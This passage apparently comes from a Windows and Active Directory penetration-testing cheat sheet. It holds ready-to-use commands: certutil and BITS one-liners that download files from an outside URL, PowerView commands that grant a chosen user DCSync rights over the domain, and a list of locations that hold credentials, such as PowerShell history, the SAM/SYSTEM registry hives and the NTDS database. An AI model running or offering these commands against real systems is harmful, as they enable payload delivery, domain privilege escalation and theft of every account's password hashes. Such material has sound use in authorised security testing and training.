 ```powershell
Import-Module BitsTransfer
Start-BitsTransfer -Source <url> -Destination <output_file>

# Method 4
certutil -urlcache -f <url> output_file<>
```

### PowerView
**Make credentials**
```powershell
# Set password
$SecPassword = ConvertTo-SecureString <password> -AsPlainText -Force

# Convert password and username into credentials object
$Cred = New-Object System.Management.Automation.PSCredential('domain\user', $SecPassword) 
```

**Give user DCSync rights**
```powershell
# Set password
$SecPassword = ConvertTo-SecureString <password> -AsPlainText -Force

# Convert password and username into credentials object
$Cred = New-Object System.Management.Automation.PSCredential('domain\user', $SecPassword) 

# Give user DCSync rights
Add-ObjectAcl -Credential $Cred -TargetIdentity "dc=domain,dc=local" -PrincipalIdentity <user> -Rights DCSync
```
### References
- [Powerview and PowerSploit](https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon)

# Directories to check
```bash
# Powershell history log file
C:\Users\username\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt

# See any suspicious apps 
"C:\Program Files" or "C:\Program Files (x86)"

# Apps on old windows versions
C:\Data\Users\app

# Code policies and passwords in files
C:\program files\windowspowershell\modules\packagemanagement

# Config files
C:\Windows\System32\config

# AD database file location
C:\Windows\NTDS
```
